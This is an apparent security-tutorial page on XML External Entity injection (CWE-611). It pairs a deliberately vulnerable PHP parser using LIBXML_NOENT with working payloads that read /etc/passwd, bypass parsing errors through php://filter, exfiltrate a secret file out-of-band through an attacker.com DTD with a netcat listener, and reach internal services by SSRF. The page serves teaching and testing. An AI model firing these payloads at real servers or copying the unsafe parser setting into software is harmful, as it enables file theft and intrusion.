

# Improper Restriction of XML External Entity Reference (CWE-611)

<Callout type="info" title="What is XXE?">
**XXE (XML External Entity Injection)** is a vulnerability that occurs when an application processes attacker-controlled XML and the XML parser allows external entity resolution.

XXE can potentially lead to:
* Local File Disclosure
* Server-Side Request Forgery (SSRF)
* Access to internal services
* Sensitive information disclosure
* Denial of Service

The vulnerability is not caused by XML itself. The problem is the combination of **untrusted XML input** and an **insecure XML parser configuration**.
</Callout>


## How XXE Works



---

## The Root Cause: Insecure Parser Configuration

The security issue arises when attacker-controlled XML can define entities and the parser is configured to resolve unsafe external entities/resources.

<AccordionGroup>
  <Accordion title="Vulnerable PHP Example (xml.php)">
    ```php
    <?php

    $myXMLData = file_get_contents('php://input');

    $data = simplexml_load_string(
        $myXMLData,
        null,
        LIBXML_NOENT
    ) or die("Error: Cannot create object");

    echo $data->username, "\n";
    echo $data->email, "\n";
    echo $data->instagram, "\n";
    ```
    <Callout type="warning">
    `LIBXML_NOENT` enables **entity substitution**. `simplexml_load_string()` by itself does **not** automatically mean that every application using it is vulnerable to XXE. The vulnerability requires the parser to resolve external entities.
    </Callout>
  </Accordion>
</AccordionGroup>

---

## Attack Scenarios & Exploitation

<Tabs>
  <Tab title="Local File Disclosure">
    <Callout type="info">
    A common impact of XXE is reading local files. If the parser resolves the entity and the application includes the resolved value in its response, the attacker receives the file contents.
    </Callout>

    <AccordionGroup>
      <Accordion title="XML Payload">
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>

        <!DOCTYPE foo [
            <!ELEMENT foo ANY>
            <!ENTITY bar SYSTEM "/etc/passwd">
        ]>

        <owasp>
            <username>adolfcna</username>
            <email>example@gmail.com</email>
            <instagram>&bar;</instagram>
        </owasp>
        ```
      </Accordion>
      <Accordion title="cURL Request">
        ```bash
        curl -H "content-type:application/xml" example.com/xml.php -d "$(cat .\payloadxml.txt)"
        ```
      </Accordion>
    </AccordionGroup>

    <Callout type="warning" title="The Parsing Problem">
    Directly reading a local file through XXE does not always produce clean output. If the file contains XML-sensitive characters (`<`, `>`, `&`), the parser may interpret them as XML markup, resulting in parsing errors or truncated output.
    </Callout>
  </Tab>

  <Tab title="Bypass via php://filter">
    <Callout type="info">
    In PHP environments, the `php://filter` stream wrapper can transform resource contents (like Base64 encoding) before they are returned. This bypasses the parsing error issue caused by XML-sensitive characters.
    </Callout>

    <Steps>
      <Step title="Step 1: Craft the Payload">
        <AccordionGroup>
          <Accordion title="XML Payload (php://filter)">
            ```xml
            <?xml version="1.0" encoding="UTF-8"?>

            <!DOCTYPE foo [
                <!ELEMENT foo ANY>
                <!ENTITY bar SYSTEM
                    "php://filter/read=convert.base64-encode/resource=/etc/passwd">
            ]>

            <owasp>
                <username>adolfcna</username>
                <email>example@gmail.com</email>
                <instagram>&bar;</instagram>
            </owasp>
            ```
          </Accordion>
        </AccordionGroup>
      </Step>
      <Step title="Step 2: Send the Request">
        ```bash
        curl -H "Content-Type: application/xml" \
             http://localhost/xml.php \
             -d @payload.xml
        ```
      </Step>
      <Step title="Step 3: Decode the Result">
        Once a Base64-encoded value has been obtained, decode it:
        ```bash
        echo 'BASE64_DATA' | base64 -d
        ```
      </Step>
    </Steps>

    <Callout type="danger">
    **Chain:** XXE → `php://filter` → Local Resource → Base64 Encoding → File Disclosure.
    `php://filter` is PHP-specific and is not an XML or XXE feature by itself.
    </Callout>
  </Tab>

  <Tab title="Blind / OOB XXE">
    <Callout type="info">
    In Blind XXE, the application does not return the resolved data in the HTTP response. **Out-of-Band (OOB)** techniques use an external server controlled by the attacker to detect interactions or exfiltrate data.
    </Callout>

    <Steps>
      <Step title="Step 1: Host External DTD">
        **File:** `evil.dtd`
        ```xml
        <!ENTITY % data SYSTEM "php://filter/convert.base64-encode/resource=/tmp/secret.txt">
        <!ENTITY % final "<!ENTITY Exploit SYSTEM 'http://attacker.com:1234/?d=%data;'>">
        ```
      </Step>
      <Step title="Step 2: Send Malicious XML">
        <AccordionGroup>
          <Accordion title="XML Payload (OOB)">
            ```xml
            <?xml version="1.0" encoding="UTF-8"?>

            <!DOCTYPE foo [
                <!ELEMENT foo ANY>

                <!ENTITY % EDA SYSTEM "http://attacker.com/evil.dtd">
                %EDA;
                %final;
            ]>

            <owasp>
                <username>adolfcna</username>
                <email>example@gmail.com</email>
                <instagram>&Exploit;</instagram>
            </owasp>
            ```
          </Accordion>
        </AccordionGroup>
      </Step>
      <Step title="Step 3: Start Listener">
        ```bash
        nc -lvnp 1234
        ```
      </Step>
    </Steps>

    ```mermaid
    %%{init: {'theme': 'base', 'themeVariables': { 'background': '#050505', 'primaryColor': '#111118', 'edgeLabelBackground':'#050505', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#FF003C', 'lineColor': '#FF003C', 'fontFamily': 'monospace', 'actorBkg': '#111118', 'actorBorder': '#89b4fa', 'actorTextColor': '#ffffff', 'signalColor': '#ffffff', 'signalTextColor': '#ffffff', 'labelBoxBkgColor': '#111118', 'labelBoxBorderColor': '#585b70', 'labelTextColor': '#ffffff', 'loopTextColor': '#ffffff', 'noteBkgColor': '#111118', 'noteTextColor': '#ffffff', 'noteBorderColor': '#585b70' }}}%%
    sequenceDiagram
        participant A as Attacker
        participant W as Web Application
        participant P as XML Parser
        participant S as External Server

        A->>W: Send malicious XML
        W->>P: Parse XML
        P->>S: Out-of-Band request (Load DTD)
        S->>P: DTD with %data and %final
        P->>S: Request exfiltrated data
        S-->>A: Interaction detected / Data received
    ```
  </Tab>

  <Tab title="SSRF via XXE">
    <Callout type="info">
    External entities do not necessarily have to reference local files. If the parser supports network-based URI schemes, an external entity can cause the server to make a network request (XXE-to-SSRF).
    </Callout>

    <AccordionGroup>
      <Accordion title="XML Payload (SSRF)">
        ```xml
        <?xml version="1.0" encoding="UTF-8"?>

        <!DOCTYPE foo [
            <!ELEMENT foo ANY>
            <!ENTITY bar SYSTEM "http://localhost:9000/secret">
        ]>

        <owasp>
            <username>adolfcna</username>
            <email>example@gmail.com</email>
            <instagram>&bar;</instagram>
        </owasp>
        ```
      </Accordion>
    </AccordionGroup>

    <Callout type="warning">
    Exploitability depends on network connectivity, firewall rules, XML parser behavior, and supported URI schemes. Potential targets include internal APIs, local services, and cloud metadata services (e.g., `http://169.254.169.254/`).
    </Callout>
  </Tab>
</Tabs>

---

## Advanced: CDATA & Parameter Entities

**CDATA (Character Data)** allows XML-sensitive characters to be treated as character data rather than XML markup.

<Callout type="tip">
A tempting approach is to construct the CDATA section directly using ordinary entities (`<!ENTITY All "&start;&file;&end;">`). However, this is not reliably usable due to rules governing entity declarations.

**Parameter entities** (`%name;`) are processed within the DTD and can be used to construct more complex entity definitions in an external DTD.
</Callout>

<AccordionGroup>
  <Accordion title="External DTD with CDATA (maliciousdtd.dtd)">
    ```xml
    <!ENTITY All "%start;%file;%end;">
    ```
  </Accordion>
  <Accordion title="XML Payload referencing External DTD">
    ```xml
    <?xml version="1.0" encoding="UTF-8"?>

    <!DOCTYPE Data [
        <!ENTITY % start "<![CDATA[">
        <!ENTITY % file SYSTEM "/tmp/secret.txt">
        <!ENTITY % end "]]>">

        <!ENTITY % dtd SYSTEM "http://LAB-SERVER/maliciousdtd.dtd">
        %dtd;
    ]>

    <owasp>
        <username>adolfcna</username>
        <email>example@gmail.com</email>
        <instagram>&All;</instagram>
    </owasp>
    ```
  </Accordion>
</AccordionGroup>



<Callout type="warning">

```mermaid
%%{init: {'theme': 'base', 'themeVariables': { 'background': '#050505', 'primaryColor': '#111118', 'edgeLabelBackground':'#050505', 'primaryTextColor': '#ffffff', 'primaryBorderColor': '#FF003C', 'lineColor': '#FF003C', 'fontFamily': 'monospace' }}}%%
flowchart LR
    A["Resource Content"] --> B["%file;"]
    B --> C["%start; + Content + %end;"]
    C --> D["CDATA-Wrapped Content"]
    D --> E["General Entity"]
    E --> F["XML Parser"]
    F --> G["Character Data"]
    
    classDef default fill:#111118,stroke:#585b70,stroke-width:1px,color:#ffffff;
    classDef action fill:#1a1a1a,stroke:#89b4fa,stroke-width:2px,color:#89b4fa;
    classDef exec fill:#1a1a1a,stroke:#D500F9,stroke-width:2px,color:#D500F9;
    
    class A,B,C,D action;
    class E,F exec;
    class G action;
```

CDATA-based techniques are **parser-dependent** and may not work with every XML parser. CDATA does **not** bypass XXE itself; it addresses a **parsing problem** when returned content contains characters that could be interpreted as XML markup.
</Callout>

---

## Key Takeaways

<CardGroup cols={2}>
  <Card title="In-Band XXE" icon="arrow-right-left">
    The parsed data is returned directly through the application's HTTP response.
  </Card>
  <Card title="Blind / OOB XXE" icon="radio-tower">
    The application does not return the result. An external interaction channel (attacker server) is used to detect or exfiltrate data.
  </Card>
  <Card title="XXE to SSRF" icon="network">
    The XML parser is forced to make server-side requests to internal or external services.
  </Card>
  <Card title="php://filter" icon="filter">
    A PHP stream wrapper used to Base64-encode file contents to avoid XML parsing errors.
  </Card>
</CardGroup>
